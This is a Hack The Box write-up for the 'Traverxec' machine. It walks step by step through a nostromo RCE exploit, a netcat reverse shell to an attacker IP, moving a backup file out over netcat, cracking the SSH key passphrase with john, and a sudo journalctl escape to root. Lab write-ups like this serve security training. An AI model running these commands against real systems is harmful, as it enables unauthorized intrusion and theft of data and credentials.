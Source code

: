 # Traverxec
An easy box, uses basic concepts to gain access and escalate privileges.

![Traverxec](../Images/htb_traverxec_1.png)

**Tools: nmap, ssh2john, john.**

We begin with the nmap scan:
> nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.165

![Traverxec](../Images/htb_traverxec_2.png)

With port 80 open, we check the webpage and run a fuzzer, but there's nothing useful to be found.
With the nmap scan we got the webserver name and version, so we can go straight to [exploit-db](https://www.exploit-db.com/) and search for nostromo 1.9.6:

![Traverxec](../Images/htb_traverxec_3.png)

We can download this RCE exploit. I had to edit it and comment (#) the line with cve2019_16278.py to make it work - it is required to inform the target's IP, port and then the command to execute (in this case, a netcat reverse shell). First start a netcat listening session, then in another terminal window run the exploit:
> nc -vnlp 9001  
> python 47837.py 10.10.10.165 80 "nc -e sh 10.10.14.245 9001"  
> (use your tun0 IP for the nc reverse shell)

![Traverxec](../Images/htb_traverxec_4.png)

![Traverxec](../Images/htb_traverxec_5.png)

Now we can spawn a fully interactive shell using python:
> python -c 'import pty; pty.spawn("/bin/sh")'

Enumeration begins, then '/etc/passwd' shows us a user 'david' and at '/var' we can see a 'nostromo' directory. Inside it there's a directory 'conf', that has this 'nhttpd.conf' file.

![Traverxec](../Images/htb_traverxec_6.png)

Reading this file reveals, under the 'HOMEDIRS' section, that inside the user's home directory there might be a public_www folder.  
We don't have permission to access /home/david but we can open /home/david/public_www, then get inside the protected-file-area directory.

![Traverxec](../Images/htb_traverxec_7.png)

Inside this folder there's a backup-ssh-identity-files.tgz file that we can download, extract and analyse in our machine.  
From the remote shell send the file through netcat, then catch it in your machine (remember to use your tun0 IP):
> nc 10.10.14.245 9002 < backup-ssh-identity-files.tgz  
> nc -vnlp 9002 > backup-ssh-identity-files.tgz  

![Traverxec](../Images/htb_traverxec_8.png)

![Traverxec](../Images/htb_traverxec_9.png)

![Traverxec](../Images/htb_traverxec_10.png)

With the id_rsa (private key) we can try connecting to the box using SSH, but we're still required to provide a password. We can use ssh2john and then john to get the password.
> /usr/share/john/ssh2john.py id_rsa > hash  
> john hash --wordlist=/usr/share/wordlists/rockyou.txt

![Traverxec](../Images/htb_traverxec_11.png)

We get the password 'hunter'. Now we use SSH and grab the user flag.

![Traverxec](../Images/htb_traverxec_12.png)

Inside david's home directory we can see the 'bin' folder, and inside it the script 'server-stats.sh'.
Reading the script reveals us that journalctl ("an utility for querying and displaying logs from journald, systemd’s logging service") runs with sudo permissions, showing us the last 5 lines of the nostromo service logs.

![Traverxec](../Images/htb_traverxec_13.png)

Looking for a privesc at [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), we have not only the technique, but also a quick explanation - journalctl invokes 'less', so we can use a command to spawn an interactive root shell from it:
> /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service  
> !/bin/bash

![Traverxec](../Images/htb_traverxec_14.png)

And we have a root shell! Now just grab the root flag from /root.  

**That's it folks!**  
Thanks for reading and keep hacking!
